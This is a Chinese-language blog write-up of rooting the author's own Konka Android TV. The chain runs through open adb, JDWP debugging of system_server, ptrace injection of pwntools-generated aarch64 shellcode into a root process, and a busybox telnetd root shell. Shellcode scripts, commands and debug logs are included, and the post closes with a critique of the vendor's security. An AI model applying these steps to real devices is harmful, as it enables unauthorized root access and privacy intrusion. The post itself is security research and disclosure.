

# Konka TV PWN

老家（？）的 Konka 电视是个 Android 系统，曾经 nmap 扫描过，发现 adb 是开放的，这次过年回去研究了一下，发现可以提权。

## 分析

使用 adb 是可以直接连接的，uid 是 shell ，不需要在 TV 上进行任何授权。

再来看看系统属性：

```
[net.bt.name]: [Android]
[net.hostname]: [android-484acfb7c4189abb]
[persist.sys.profiler_ms]: [0]
[ro.HiDPTAndroid.version]: [HiDPTAndroidV300R002C01SPC050_20170710]
[ro.adb.secure]: [0]
[ro.allow.mock.location]: [1]
[ro.baseband]: [unknown]
[ro.board.platform]: [bigfish]
[ro.boot.selinux]: [enforcing]
[ro.bootloader]: [unknown]
[ro.bootmode]: [unknown]
[ro.bootvideo.vol.support]: [1]
[ro.build.board.select]: [0]
[ro.build.characteristics]: [tv]
[ro.build.date.utc]: [1586333036]
[ro.build.date]: [Wed Apr  8 16:03:56 CST 2020]
[ro.build.description]: [KKHi3751V551E_64bit_DMO_2layer-user 5.1.1 LMY49J eng.KK.20200408.160235 release-keys]
[ro.build.display.id]: [LMY49J release-keys]
[ro.build.flavor]: [KKHi3751V551E_64bit_DMO_2layer-user]
[ro.build.host]: [ubuntu]
[ro.build.id]: [LMY49J]
[ro.build.product]: [KKHi3751V551E]
[ro.build.tags]: [release-keys]
[ro.build.type]: [user]
[ro.build.user]: [wangkang]
[ro.build.version.all_codenames]: [REL]
[ro.build.version.base_os]: []
[ro.build.version.codename]: [REL]
[ro.build.version.incremental]: [eng.KK.20200408.160235]
[ro.build.version.release]: [5.1.1]
[ro.build.version.sdk]: [22]
[ro.build.version.security_patch]: [2017-06-01]
[ro.carrier]: [unknown]
[ro.com.android.dateformat]: [MM-dd-yyyy]
[ro.com.widevine.cachesize]: [16777216]
[ro.config.2k_galleryl]: [false]
[ro.config.alarm_alert]: [Alarm_Classic.ogg]
[ro.config.layer_buffers_num]: [3]
[ro.config.max_starting_bg]: [20]
[ro.config.media_vol_steps]: [100]
[ro.config.netflix.surround]: [nrdp_external_surround_sound_enabled]
[ro.config.notification_sound]: [pixiedust.ogg]
[ro.config.ringtone]: [Ring_Synth_04.ogg]
[ro.crypto.state]: [unencrypted]
[ro.dalvik.vm.native.bridge]: [0]
[ro.debuggable]: [1]
[ro.drm.tvp]: [false]
[ro.factorytest]: [0]
[ro.hardware]: [hi3751]
[ro.hwcursor.fb]: [/dev/graphics/fb3]
[ro.kernel.android.checkjni]: [false]
[ro.konka.bootvideo.version]: [1.0]
[ro.opengles.version]: [131072]
[ro.ott.enable]: [true]
[ro.product.board]: [bigfish]
[ro.product.brand]: [HiDPT]
[ro.product.cpu.abi]: [arm64-v8a]
[ro.product.cpu.abilist32]: [armeabi-v7a,armeabi]
[ro.product.cpu.abilist64]: [arm64-v8a]
[ro.product.cpu.abilist]: [arm64-v8a,armeabi-v7a,armeabi]
[ro.product.device]: [KKHi3751V551E]
[ro.product.locale.language]: [zh]
[ro.product.locale.region]: [CN]
[ro.product.manufacturer]: [KONKA]
[ro.product.model]: [Konka Android TV 551]
[ro.product.name]: [KKHi3751V551E_64bit_DMO_2layer]
[ro.radio.noril]: [true]
[ro.revision]: [0]
[ro.runtime.firstboot]: [1674394460340]
[ro.secure]: [0]
[ro.serialno]: []
[ro.sf.lcd_density]: [240]
[ro.tailor.level]: [L2]
[ro.tether.denied]: [false]
```

内核版本：

```
Linux version 3.18.16_s5 (wangkang@ubuntu) (gcc version 4.9.1 20140529 (prerelease) (crosstool-NG linaro-1.13.1-4.9-2014.07 - Linaro GCC 4.9-2014.06) ) #1 SMP Wed Apr 8 16:18:43 CST 2020
```

cpu 是 arm64 的，Android SDK 版本 22 .

`ro.adb.secure` 是 0 ，因此 adb 不需要验证即可连接。

`ro.debuggable` 是 1 ，因此这个系统是可调试的

`ro.build.type=user` ，这是个 user 构建的系统。

系统中没有 su ，尝试了一下 `adb root` ，执行倒是成功了，但是进入 adb shell 仍然不是 root 。此外，使用 `run-as` 总是报错找不到包，看来想要得到 root 甚至其他用户都没那么容易。

不过 `ro.debuggable=1` 还会影响别的东西，比如，app 进程的调试默认都是打开的。使用 `adb jdwp` 可以看到一串 pid ，其中甚至包括 system_server 的。

使用 `adb forward tcp:xxxxx jdwp:` 可以转发 jdwp ，利用 jdb 连接，真的可以对系统服务进行调试！

> 但是我们不能对 zygote 进行调试，因为 Android 在设计上就是关闭的。  

注意到 system_server 的权能(Capability)是这样的：

```
CapInh: 0000000000000000
CapPrm: 0000001006893c20
CapEff: 0000001006893c20
```

其中包括了 cap_sys_ptrace ，意味着可以对任意进程进行调试——无视了 uid 等隔离。不过 CapInh 为 0 ，意味着 execve 的进程不具备这些权限。

另一方面，系统中还存在一个大洞：`getenforce` 返回的是 `Disable` ，这意味着 SELinux 的保护也不存在！

如此一来，如何提取 root 权限就有一条比较清晰的路线了：

1. 系统服务暴露的 jdwp 让我们执行任意代码  
2. 在系统服务中加载 native lib ，ptrace 控制任意一个 root 进程  
3. 控制 root 进程反弹 shell  

理论存在，实践开始！

## 第一阶段：取得 system 和 ptrace 权限  

理论上来说我们可以用 `am attach-agent` 注入一个 agent lib ，这样就不需要和 jdwp 打交道了，但是这个 API 22 的 am 竟然没有 attach-agent 子命令。我不打算仔细研究是否能注入 agent 了，直接利用 jdwp 就行。

[jdb - The Java Debugger](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html)

[java - How to run custom code in JDB session? - Stack Overflow](https://stackoverflow.com/questions/37569125/how-to-run-custom-code-in-jdb-session)

[浅析JDWP远程命令执行漏洞 &#x5b; Mi1k7ea &#x5d;](https://www.mi1k7ea.com/2021/08/06/%E6%B5%85%E6%9E%90JDWP%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)

[IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

jdwp 需要在线程挂起的时候才能执行大部分操作，比如执行任意代码。

jdb 中可以使用 `eval/dump/print` 执行代码，但我们首先需要挂起一个线程，

`threads`  列出线程信息（注意线程 id 并不是 linux 的 tid），由于是手动操作，为了避免长时间挂起线程影响系统，这里我选择挂起 `watchdog` （但是实际上一直挂起它也会在某些情况下导致系统卡住，如 activity 切换的时候，这时候 resume 或退出调试器就好了）。

使用 `suspend tid` 挂起， `resume tid` 恢复（不写 tid 默认所有线程）。

使用 `thread tid` 进入线程，`stepi` 步进，这时候就可以用 `eval` 等命令执行任意代码了。

`eval java.lang.Runtime.getRuntime().exec` 可以执行任意程序，我们可以用 busybox 的 telnetd 在网络上开启 shell （可以用 Magisk busybox）：

`busybox telnetd -l /system/bin/shell -p 8023`

但是由于 system_server 的权能无法继承，因此这个 shell 没什么用（甚至无法绑定 telnet 默认端口 23，而系统服务是有 cap_bind_net_service 权限的），最多访问一些系统目录。

编写了一个简单的 lib 测试，`eval java.lang.System.load("/data/local/tmp/libpwn.so")` 加载，可以发现 root 进程确实可以 ptrace 附加（此处附加了 init ，也许附加 zygote64 会更好）

## 第二阶段：控制 root 进程

种种条件的限制之下，想要控制 root 进程执行任意代码还是需要真本事的。

曾经粗略学习过 x86-64 上的 ptrace ，不过在 arm64 上还是有一些区别。

思路：mmap rwx 内存区域，写 shellcode ，执行 fork 和 execve 系统调用启动 telnetd 。

可以利用 pwntools 生成 shellcode 。

在 android 中， `SYS_fork` 并不存在，libc fork 采用的是 `clone` 实现 fork

可以参考 AOSP:

[fork.cpp](https://cs.android.com/android/platform/superproject/+/master:bionic/libc/bionic/fork.cpp?q=fork)

```py
from pwn import *

if __name__ == '__main__':
    context(arch='aarch64', os='linux')
    # CLONE_CHILD_SETTID | CLONE_CHILD_CLEARTID | SIGCHLD
    code = pwnlib.shellcraft.aarch64.linux.syscall('SYS_clone', 0, 0, pwnlib.constants.eval('SIGCHLD') | 0x01000000|0x00200000, 0, 0, 0)
    code += 'cmp x0, #0x0\n'
    code += 'b.gt aaa\n'
    code += pwnlib.shellcraft.aarch64.pushstr("/data/local/tmp/busybox")
    code += pwnlib.shellcraft.aarch64.pushstr_array("x14", ["telnetd", "-l", "/system/bin/sh"])
    code += pwnlib.shellcraft.aarch64.linux.syscall('SYS_execve', 'sp', 'x14', 0)
    code += 'aaa:\n'
    code += pwnlib.shellcraft.aarch64.breakpoint()
    print(code)
    c = asm(code)
```

[Playing with ptrace, Part II | Linux Journal](https://www.linuxjournal.com/article/6210)

[Linux System Calls quick and easy](https://syscall.sh/)

[arm与arm64汇编指令汇总 - 掘金](https://juejin.cn/post/7170652839398604837#heading-3)

[ouadev/proc_maps_parser: a lightweight library to parse Linux's /proc/&#x5b;pid&#x5d;/maps file, which contains the memory map of a process](https://github.com/ouadev/proc_maps_parser)

[c - ptrace change syscall number arm64 - Stack Overflow](https://stackoverflow.com/questions/63620203/ptrace-change-syscall-number-arm64)

[eklitzke/ptrace-call-userspace: Example of how to use the ptrace(2) system call to call a userspace method.](https://github.com/eklitzke/ptrace-call-userspace)

[简述获取shellcode的几种方式 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/237300.html)

[pwnlib.shellcraft.aarch64 — Shellcode for AArch64 — pwntools 4.8.0 documentation](https://docs.pwntools.com/en/stable/shellcraft/aarch64.html)

[linux kernel - function calls from fork() to do_fork() - Stack Overflow](https://stackoverflow.com/questions/11548779/function-calls-from-fork-to-do-fork)

[c - Why is sys_fork not used by glibc's implementation of fork? - Stack Overflow](https://stackoverflow.com/questions/37165339/why-is-sys-fork-not-used-by-glibcs-implementation-of-fork)

目前还未成功，似乎卡在 shellcode 的写入和执行。退出信号是 SIGBUS (7)

```
D/FIVECC  ( 1970): hello, SS!
I/FIVECC  ( 1970): successful to attach!
D/FIVECC  ( 1970): saving registers
D/FIVECC  ( 1970): set registers for syscall
D/FIVECC  ( 1970): save orig pc content
D/FIVECC  ( 1970): word=-738197503
D/FIVECC  ( 1970): calling mmap
I/FIVECC  ( 1970): called mmap!
D/FIVECC  ( 1970): rwx page: 0x7fadf13000
D/FIVECC  ( 1970): writing shellcode...
D/FIVECC  ( 1970): stopped by other sig: 7
D/FIVECC  ( 1970): exiting...
```

发现 SETTID 和 CLEARTID 是不必要的，可以删去

……

```
# ./shc `pidof cat`
D:inject into pid 7322
I:successful to attach!
D:saving registers
D:save orig context
D:orig pc=0x7407db5814
D:set registers for syscall
D:word=-5674530995739557887
D:calling mmap
I:called mmap!
D:rwx page: 0x7409439000
D:writing shellcode...
D:done writing shellcode...
I:success to fork!
D:new_pid=7327
D:child stopped by sig: 7 Bus error
D:fault addr: 0x7fd4b27dc0
I:x0=0x0
I:x1=0x0
I:x2=0x0
I:x3=0x0
I:x4=0x0
I:x5=0x0
I:x6=0x0
I:x7=0x1cd000
I:x8=0xdc
I:x9=0x1000
I:x10=0x33
I:x11=0x0
I:x12=0xc
I:x13=0x73
I:x14=0x7fd4b27dbb
I:x15=0x747379732f006c2d
I:x16=0x7407dd68f0
I:x17=0x7407db5810
I:x18=0x7408d6e000
I:x19=0xb40000740760b000
I:x20=0x0
I:x21=0x20000
I:x22=0x20000
I:x23=0x7ff00001
I:x24=0xb40000740760b000
I:x25=0x1
I:x26=0x5b443ac294
I:x27=0x5e
I:x28=0x7fd4b280a8
I:x29=0x7fd4b27e00
I:x30=0x5b44361984
I:sp=0x7fd4b27da8
I:pc=0x7409439070
```

问题代码：

```
    /* push pointers onto the stack */
    mov  x14, #19
    add x14, sp, x14
    str x14, [sp, #-8]! /* b'telnetd\x00' */  here
    mov  x14, #24
    add x14, sp, x14
    str x14, [sp, #-8]! /* b'/system/bin/sh\x00' */
    mov  x14, #24
    add x14, sp, x14
    str x14, [sp, #-8]! /* b'-l\x00' */
```

```
7fd4b09000-7fd4b2a000 rw-p 00000000 00:00 0                              [stack]

D:child stopped by sig: 7 Bus error
D:fault addr: 0x7fd4b27dc0

I:sp=0x7fd4b27da8
I:pc=0x7409439070
```

SIGBUS 应该不是栈溢出，查了一下是 arm64 stp, ldp 指令要求 sp 16 位对齐

[How do I parse ARM64 assembly SIGBUS error? - Stack Overflow](https://stackoverflow.com/questions/72724797/how-do-i-parse-arm64-assembly-sigbus-error)

pushstr_array 导致的，看起来是 pwntools 的问题，但是 pwntools 又说修了。

[aarch64.linux.pushstr_array is broken · Issue #1549 · Gallopsled/pwntools](https://github.com/Gallopsled/pwntools/issues/1549)

最后干脆 execve 一个跳板程序（这里就执行一个 sh `/data/local/tmp/pwn.sh`），不需要 arg ，总算不会 SIGBUS 了。

```py
from pwn import *
import struct

if __name__ == '__main__':
    context(arch='aarch64', os='linux')
    code = pwnlib.shellcraft.aarch64.linux.syscall('SYS_clone', pwnlib.constants.eval('SIGCHLD'), 0, 0, 0, 0)
    code += 'cmp w0, #0x0\n'
    code += 'b.gt aaa\n'
    code += pwnlib.shellcraft.aarch64.pushstr("/data/local/tmp/pwn.sh")
    code += pwnlib.shellcraft.aarch64.linux.syscall('SYS_execve', 'sp', 0, 0)
    code += 'aaa:\n'
    code += pwnlib.shellcraft.aarch64.breakpoint()
    print(code)
    c = asm(code)
    print(list(c))
```

最后再完善一下 JDWP 注入，参考了 jdwp-shellifier 和以下项目。

[WindySha/jdwp-xposed-injector: This is an injection tool that can inject xposed module to debuggable app by jdwp.](https://github.com/WindySha/jdwp-xposed-injector)

[一种基于JDWP动态注入代码的方案 | Windy's Journal](https://windysha.github.io/2022/02/19/%E4%B8%80%E7%A7%8D%E5%9F%BA%E4%BA%8EJDWP%E5%8A%A8%E6%80%81%E6%B3%A8%E5%85%A5%E4%BB%A3%E7%A0%81%E7%9A%84%E6%96%B9%E6%A1%88/)

## PWNED



通过 telnet 即可访问 root shell 。

## 后记

这一次 pwn 算是同时学习了利用 Java 的调试协议 (JDWP) 和 linux 调试 API (ptrace) 实现任意代码的执行，同时也体会到，随意开放调试是会带来巨大风险的。这台电视的系统不仅在网络上开放了 adb ，还允许调试任意进程，SELinux 被禁用，利用 system_server 的 ptrace 特权从而得到 root 权限——正是这一系列安全机制在系统的开发阶段被忽视，才有了提权的可能。但仔细一想，最恐怖的还是任意安装到电视的具有网络访问权限的 App 都可以这样获得 root 权限，掌控整台设备。假如电视还有摄像头、麦克风等外设（当然这台是没有的），必然会进一步威胁到用户的隐私。因此，作为厂商，在系统安全方面一定要做到合规。
